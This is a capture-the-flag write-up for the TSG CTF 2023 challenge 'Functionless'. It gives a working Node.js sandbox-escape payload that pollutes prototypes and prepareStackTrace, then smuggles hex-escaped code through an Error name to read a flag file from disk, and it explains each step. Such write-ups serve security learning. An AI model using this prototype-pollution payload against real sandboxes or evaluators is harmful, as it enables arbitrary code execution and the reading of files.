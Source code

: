 # TSG CTF 2023 - misc/Functionless

- 5 solves / 365 pts
- Author: n4o847

My solution:

```javascript
$ nc 34.84.217.62 30002
Welcome! Please input an expression.
> globalThis.constructor.constructor.prototype.toString = globalThis.constructor.constructor.prototype.call; Error.stackTraceLimit = 0; globalThis.constructor.prototype.prepareStackTrace = globalThis.constructor.constructor; const err = new Error; err.name = "x = \x28\x28\x29 => { const fs = process.mainModule.require\x28'fs'\x29; const filename = fs.readdirSync\x28'./'\x29.find\x28name => name.startsWith\x28'flag-'\x29\x29; console.log\x28fs.readFileSync\x28filename\x29.toString\x28\x29\x29 }\x29\x28\x29"; err
TSGCTF{i_like_functional_programming_how_about_you}

[undefined] {
  name: "x = (() => { const fs = process.mainModule.require('fs'); const filename = fs.readdirSync('./').find(name => name.startsWith('flag-')); console.log(fs.readFileSync(filename).toString()) })()"
}
```

## Steps

### Step 1

```javascript
globalThis.constructor.constructor.prototype.toString = globalThis.constructor.constructor.prototype.call;
```
This means `Function.prototype.toString = Function.prototype.call` where the `Function` is a host object.

By this prototype pollution, functions will be called when they are converted to primitive values.

### Step 2

```javascript
Error.stackTraceLimit = 0;
globalThis.constructor.prototype.prepareStackTrace = globalThis.constructor.constructor;
```
This pollutes `prepareStackTrace` to a constructor `Function`.

- `prepareStackTrace`: https://github.com/nodejs/node/blob/v20.9.0/lib/internal/errors.js#L140-L141
- Stack trace API: https://v8.dev/docs/stack-trace-api

`Error.stackTraceLimit = 0;` changes the second argument `trace` of `prepareStackTrace` to an empty array.

### Step 3

```javascript
const err = new Error;
err.name = "x = \x28\x28\x29 => { const fs = process.mainModule.require\x28'fs'\x29; const filename = fs.readdirSync\x28'./'\x29.find\x28name => name.startsWith\x28'flag-'\x29\x29; console.log\x28fs.readFileSync\x28filename\x29.toString\x28\x29\x29 }\x29\x28\x29";
err
```

When `console.log(err)` is executed, `Function(err, []).call()` will be executed and it will show a flag!

## Flag

```
TSGCTF{i_like_functional_programming_how_about_you}
```
